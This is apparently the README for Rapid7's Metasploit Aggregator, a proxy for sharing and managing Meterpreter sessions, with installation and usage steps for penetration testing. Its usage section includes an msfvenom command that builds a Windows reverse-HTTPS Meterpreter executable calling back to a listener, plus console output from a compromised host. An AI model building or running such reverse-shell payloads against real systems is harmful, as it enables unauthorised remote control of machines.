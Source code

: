 Metasploit [![Build Status](https://travis-ci.org/rapid7/metasploit-aggregator.svg?branch=master)](https://travis-ci.org/rapid7/metasploit-aggregator) [![Code Climate](https://img.shields.io/codeclimate/github/rapid7/metasploit-aggregator.svg)](https://codeclimate.com/github/rapid7/metasploit-aggregator)
==
The Metasploit Aggregator is released under a BSD-style license. See
COPYING for more details.

Bug tracking and development information can be found at:
 https://github.com/rapid7/metasploit-aggregator

New bugs and feature requests should be directed to:
  https://github.com/rapid7/metasploit-aggregator/issues/new

Questions and suggestions can be sent to:
  https://groups.google.com/forum/#!forum/metasploit-hackers

## Metasploit Aggregator

The Metasploit Aggregator is a proxy for Meterpreter sessions. Normally, Meterpreter sessions connect directly to a Metasploit listener. However, this has a few problems:

 1. Multiple users cannot easily share the session once it is established, without some sort of external multiplexing scheme, such as running msfconsole in a screen session. While Metasploit Pro solves this issue to a certain extent, it is also limited by the number of users that can simultaneously  interact with shared sessions.

 1. Running a full msfconsole on a remote listener is resource intensive because it uses multiple threads per connection. It has a hard time scaling reliably to thousands of sessions, and even fewer on Windows platforms.

 1. The design requires either running different copies of msfconsole, or putting all of your eggs in one basket. It is difficult to distribute sessions across many endpoints and have a global view of them all.

The Metasploit Aggregator solves these problems by implementing an event-driven listener that stands between msfconsole and Meterpreter. It can scale to thousands of connections, but only needs to make a single connection with Metasploit Framework to manage them all.  Sessions can be shared between multiple users without any changes to the Meterpreter session
Itself, such as by modifying the session transport configuration. The redirection of a session occurs behind the scenes on the control channel between Metasploit Aggregator and msfconsole.

## Glossary

Metasploit Aggregator introduces a few new concepts.

* A **‘parked’** session is one that is terminated entirely by Metasploit Aggregator. This means that the minimal interaction with the session to simply keep it alive is handled by the aggregator automatically. A user can attach to a session at any time in order to interact with it.

* A **‘cable’** is a listening port that the aggregator opens to accept new connections from Meterpreter. This is analogous to starting a handler on msfconsole.

* The **‘default forward’** address is the location of a msfconsole instance that serves as a helper for Metasploit Aggregator. Metasploit Aggregator currently does not know how to handle staged sessions, request session details, or how to deal with AutoRun scripts. The default forward is where a session connecting to a cable is redirected on initial connection. The connection is enumerated for details of the target and continues to communicates with the default forward until requested specifically by another console or parked by request of the default forward.

* A **‘forwarded’** session is one that terminates at the aggregator, but is then proxied to a msfconsole instance. The session is forwarded over a control channel connection to the aggregator. When you are done interacting with a session, it can be moved back to a ‘parked’ state for other users to use. Note: any user can steal a session if desired and forward it to a different msfconsole instance.

## Installing
Standalone installation: ```gem install metasploit-aggregator```.

## Usage

To use Metasploit Aggregator, first start an instance of the aggregator itself. This is automatically packaged with Metasploit Framework, or can be installed standalone by running `gem install metasploit-aggregator`. The aggregator binary is called `metasploit-aggregator`, and listens on address 127.0.0.1, port 2447. Because the aggregator does not provide encryption or authentication by itself, to connect to a remote instance, we suggest using SSH port forwarding or some other tunneling technology to reach a remote aggregator.

On the system hosting the aggregator:
```
metasploit-framework$ metasploit-aggregator 
2017-03-06 13:17:32 -0600 Starting administration service on 127.0.0.1:2447
```

On the client system:
```
ssh user@aggregator -L 127.0.0.1:2447:127.0.0.1:2447
```

Next, start a msfconsole instance and load the aggregator plugin. This will allow you to interact with the remote aggregator. This is also required to setup the default forward msfconsole instance. Setup the msfconsole instance to be the default forward. This instance will see all connections when they first arrive.

```none
metasploit-framework$ ./msfconsole 
                                                  
  +-------------------------------------------------------+
  |  METASPLOIT by Rapid7                                 |
  +---------------------------+---------------------------+
  |      __________________   |                           |
  |  ==c(______(o(______(_()  | |""""""""""""|======[***  |
  |             )=\           | |  EXPLOIT   \            |
  |            // \\          | |_____________\_______    |
  |           //   \\         | |==[msf >]============\   |
  |          //     \\        | |______________________\  |
  |         // RECON \\       | \(@)(@)(@)(@)(@)(@)(@)/   |
  |        //         \\      |  *********************    |
  +---------------------------+---------------------------+
  |      o O o                |        \'\/\/\/'/         |
  |              o O          |         )======(          |
  |                 o         |       .'  LOOT  '.        |
  | |^^^^^^^^^^^^^^|l___      |      /    _||__   \       |
  | |    PAYLOAD     |""\___, |     /    (_||_     \      |
  | |________________|__|)__| |    |     __||_)     |     |
  | |(@)(@)"""**|(@)(@)**|(@) |    "       ||       "     |
  |  = = = = = = = = = = = =  |     '--------------'      |
  +---------------------------+---------------------------+


       =[ metasploit v4.14.1-dev-5383900                  ]
+ -- --=[ 1627 exploits - 928 auxiliary - 282 post        ]
+ -- --=[ 472 payloads - 39 encoders - 9 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > load aggregator 
[*] Aggregator interaction has been enabled
[*] Successfully loaded plugin: aggregator
msf > aggregator_connect 127.0.0.1:2447
[*] Connecting to Aggregator instance at 127.0.0.1:2447...
msf > 
```

Startup a new cable to begin listening for Meterpreter sessions from the aggregator. You can optionally specify an SSL certificate for it to serve over HTTPS as well. You can verify that the cable is listening with the `aggregator_cables` command. This will also start a new handler automatically on the default forward instance of msfconsole to handle new sessions as they arrive.

```
msf > aggregator_cable_add 192.168.1.10:8443
msf > aggregator_default_forward 
msf >
```

Now, point a Meterpreter session at the cable address and port. You should see a new session on the default forward console. You can now park this session with the aggregator_session_park command.

```
C:\metasploit-framework> msfvenom -p windows/meterpreter_reverse_https LHOST=192.168.1.10 LPORT=8443 -f exe -o launch-stageless.exe
C:\metasploit-framework> launch-stageless.exe
```

Resulting session created:

```
msf > [*] Meterpreter session 1 opened (127.0.0.1:53414 -> 127.0.0.1:53519) at 2017-03-06 13:46:23 -0600
```

To view all available sessions, use the aggregator_sessions command:

```
msf > aggregator_sessions
[*] Sessions found:
[*] 	 Remote ID: 1
[*] 	      Type: meterpreter windows
[*] 	      Info: DESKTOP-KAO0P3O\user @ DESKTOP-NAME
[*] 	    Tunnel: 192.168.1.10:8443 -> 192.168.1.11:53528
[*] 	       Via: exploit/multi/handler
[*] 	      UUID: 8121940d2f5c4b1f/x86=1/windows=0/2016-12-15T22:03:16Z
[*] 	 MachineID: 1e2b16f37eab2324b9089cd93f16533b
[*] 	   CheckIn: 3s ago
[*] 	Registered: Not Yet Implemented
[*] 	   Forward: 50ab485d-dbe3-4045-95c4-c9abd45c1683
[*] 	Session ID: 1
[*] 
```

To forward an available session to your console, use the aggregator_session_forward command:

```
msf > aggregator_sessions
[*] Sessions found:
[*] 	 Remote ID: 1
[*] 	      Type: meterpreter windows
[*] 	      Info: DESKTOP-KAO0P3O\user @ DESKTOP-NAME
[*] 	    Tunnel: 192.168.1.10:8443 -> 192.168.1.11:53528
[*] 	       Via: exploit/multi/handler
[*] 	      UUID: 8121940d2f5c4b1f/x86=1/windows=0/2016-12-15T22:03:16Z
[*] 	 MachineID: 1e2b16f37eab2324b9089cd93f16533b
[*] 	   CheckIn: 6s ago
[*] 	Registered: Not Yet Implemented
[*] 	   Forward: parked
[*] 
msf > aggregator_session_forward 1
msf > [*] Meterpreter session 2 opened (127.0.0.1:53414 -> 127.0.0.1:54066) at 2017-03-06 13:50:51 -0600
```

Finally, to disconnect from the aggregator, use the aggregator_disconnect command:

```
msf > aggregator_disconnect 
[*] 127.0.0.1 - Meterpreter session 2 closed.
msf > 
```

During disconnect, the console will park any sessions explicitly requested by the user.  If the console is registered as the “default forward” any sessions that have not been specifically requested will park, however the next console that registers as the default forward will be passed these passively parked sessions.

## Contributing
[Contributing](https://github.com/rapid7/metasploit-aggregator/blob/master/CONTRIBUTING.md).

Expanding protobuf service use
```grpc_tools_ruby_protoc -I ../protos --ruby_out=lib --grpc_out=lib ../protos/metasploit/aggregator/*```

